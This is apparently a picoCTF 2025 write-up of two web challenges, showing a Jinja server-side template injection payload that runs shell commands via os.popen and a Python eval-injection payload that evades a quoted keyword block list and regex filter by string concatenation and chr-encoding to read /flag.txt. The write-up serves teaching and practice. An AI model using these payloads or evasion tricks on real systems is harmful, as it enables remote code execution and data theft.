```yaml
---
title: picoCTF-2025 - SSTI1 and 3v@l
author: Bonface
date: 2025-03-12 00:00:00 +0000
categories:
  - CTF Competitions
tags:
  - Web
  - ssti
  - command injections
image:
  path: /assets/img/CTF_Competitions/PicoCTF2025/pico.png
  alt: PicoCTF2025
---
```


# SSTI1 - web

## Challenge Overview

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website .

---

![image](https://gist.github.com/user-attachments/assets/3e2d983a-9356-424f-b192-6bd60c254be2)

**Hint**

- Server Side Template Injection

## Enumeration

Lets visit the site.  
![image](https://gist.github.com/user-attachments/assets/7c3cbfc1-5b40-4fd9-86a8-caf105e59bca)

We try `test` as an input to see the output while monitoring the requests using burp suite.  
![image](https://gist.github.com/user-attachments/assets/d7bb534b-ea63-46fe-9216-7b9cce757ca0)

The input is reflected back to us on the `announcement` page.

## Exploitation

From the hint we know that we have to exploit a `server side template injection`.  
Did some reading and found [this](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=ssti#python) perfect for getting to understand the vulnerability and example exploits.

To test for ssti we use `{{7*7}}` , if it prints `49` then that confirms we have `ssti`.  
To identify the language we can use `{{7*'7'}}` if we get `7777777` then it confirms that we have python and we can use a python payload.    
![image](https://gist.github.com/user-attachments/assets/d004a8a4-6c49-4d4f-8c43-efa6c3bcb563)

Now that we have python let’s grab our payload.

```python
{{ cycler.__init__.__globals__.os.popen('ls').read() }}
```

This will list the files in the current directory.  
![image](https://gist.github.com/user-attachments/assets/c210909d-9558-4237-9ff8-123d49d9e128)

For this we are interested with the `flag` .  
![image](https://gist.github.com/user-attachments/assets/83f042bc-1e84-4aea-9afc-ae1b577b810e)

# 3v@l - web

## Challenge Overview

ABC Bank’s website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank’s calculator and read the flag?

Additional details will be available after launching your challenge instance.

---

![image](https://gist.github.com/user-attachments/assets/4b7f8bca-830f-4a89-8cee-8fd2e10d3d90)

We follow the link to get this page.  
![image](https://gist.github.com/user-attachments/assets/2c4b5d84-a055-4c78-80e5-4a8a9915973d)

The program just performs basic mathematical calculations.  
Here is what we get from the source code:

```html
<!DOCTYPE html>
<html lang="en">
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Welcome to ABC bank </title>
    <link rel="stylesheet" href="/static/bootstrap.min.css">
    <link rel="stylesheet" href="/static/styles.css">
</head>
<body>
    <div class="container">
        <h1 class="mb-4 text-center">Bank-Loan Calculator</h1>
        <form method="post" action="/execute">
            <div class="form-group">
                <label for="code">Enter the formula:</label>
                <textarea id="code" name="code" class="form-control" rows="10" cols="50" placeholder="example: PRT*RATE*TIME(10000*23*12)" required></textarea>
            </div>
            <button type="submit" class="btn btn-primary">Execute</button>
        </form>
        <div class="footer-link mt-4">
            <a href="/">Go back</a>
        </div>
    </div>
</body>
</html>
```

With that let’s understand the challenge:  
The server:

- Restrict dangerous keywords like os, exec, eval, socket, bind, etc.
- Prevent command injections and file access (ls, cat, shell).
- Regex Filtering, Blocking hexadecimal, Unicode, URL encoding, and directory traversal patterns.

Now that we know the flag is stored in `/flag.txt`, we need to bypass the security restrictions in the Flask app and extract the file contents.  
Here i tried a bunch of tricks but here is the one that worked.

If this succeeds, it might reveal an `os` or `popen` class, which we can use to run commands.

Lets understand the Payload i used:  
The payload:

```python
__import__('o'+'s').popen(''.join(chr(x) for x in [99, 97, 116, 32, 47, 102, 108, 97, 103, 46, 116, 120, 116])).read()
```

This successfully bypassed security filters and executed `cat /flag.txt`.  
Let’s break it down step by step.

1️⃣ Bypassing import os Restriction

```python
__import__('o'+'s')
```

- `__import__('os')` dynamically imports the os module.
- Instead of “os”, we used ‘o’ + ‘s’ to evade static keyword detection.

2️⃣ Constructing the Command Without Using “cat” Directly

```python
''.join(chr(x) for x in [99, 97, 116, 32, 47, 102, 108, 97, 103, 46, 116, 120, 116])
```

- This dynamically reconstructs the string “cat /flag.txt” using ASCII values:

```
Char	ASCII Code
c    	99
a    	97
t    	116
(space)	32
/    	47
f    	102
l    	108
a    	97
g    	103
.    	46
t    	116
x    	120
t    	116
```

- Instead of writing `cat /flag.txt` directly (which might get detected), we generate it dynamically using chr().

3️⃣ Executing the Command

```python
__import__('o'+'s').popen(COMMAND).read()
```

- popen(COMMAND).read() executes the command in a subprocess shell and reads the output.
- Since we bypassed “cat” detection, the system executed cat /flag.txt successfully.

![image](https://gist.github.com/user-attachments/assets/57ca3bbb-9cf3-4947-857f-b673fbb11630)